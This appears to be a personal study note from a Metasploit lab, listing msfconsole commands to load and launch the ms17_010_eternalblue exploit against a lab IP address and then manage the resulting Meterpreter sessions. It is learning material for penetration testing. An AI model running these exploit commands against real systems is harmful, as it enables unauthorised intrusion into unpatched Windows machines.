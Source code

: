| No. | Step | Command |
|-----|--------|-------------|
| 1. | Use module: ms17_010_eternalblue exploit. | `use exploit/windows/smb/ms17_010_eternalblue` |
| 2. | Set all module parameters. | `setg rhosts 10.10.165.39` |
|3. | Launch the module.<br>`-z`: Run exploit and background the session immediately. Will return you the context prompt from which you have run the exploit. | `exploit` or `exploit -z` or `run` |

<u><b>Sessions</b></u>
<br>Once vulnerability has been successfully exploited, session will be created = Communication channel established between target system and Metasplot.
| Command | Action |
|---------|---------|
| `background` or `CTRL+Z` | [Meterpreter prompt: `meterpreter >` ] To background the session prompt and go back to the msfconsole (should be context?) prompt: `msf6 exploit(windows/smb/ms17_010_eternalblue) >`.  |
| `sessions` | [msfconsole prompt: `msf6 >` or any context prompt: `msf6 exploit(windows/smb/ms17_010_eternalblue) > `] To see existing sessions. |
| `sessions -i <session_number>` | To interact with a particular session. |

## To note
<ul>
<li>The different Metasploit prompts</li>
<li>Modules vs. categories</li>
</ul>